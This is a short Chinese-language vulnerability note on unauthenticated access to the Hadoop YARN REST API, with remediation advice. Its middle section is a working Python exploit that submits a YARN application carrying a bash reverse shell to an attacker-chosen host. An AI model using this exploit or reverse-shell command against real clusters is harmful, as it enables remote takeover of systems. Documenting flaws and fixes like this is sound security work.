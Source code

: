 ### 一 漏洞描述
Hadoop是一个由Apache基金会所开发的分布式系统基础架构，YARN是hadoop系统上的资源统一管理平台，其主要作用是实现集群资源的统一管理和调度，可以把MapReduce计算框架作为一个应用程序运行在YARN系统之上。  

YARN提供有默认开放在8088和8090的REST API（默认前者）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当，REST API将会开放在公网导致未授权访问的问题。

### 二 漏洞利用
```python
import requests
 
target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' # put your local host ip here, and listen at port 9999
 
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i &gt;&amp; /dev/tcp/%s/9999 0&gt;&amp;1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

### 三 漏洞修复
如无必要，关闭Hadoop Web管理页面；  
开启服务级别身份验证，如Kerberos认证；  
部署Knox、Nginx之类的反向代理系统，防止未经授权用户访问；  
设置“安全组”访问控制策略，将Hadoop默认开放的多个端口对公网全部禁止或限制可信任的IP地址才能访问包括50070以及WebUI等相关端口

> 参考链接  
> https://zgao.top/hadoop-yarn-rest-api%E6%9C%AA%E6%8E%88%E6%9D%83%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
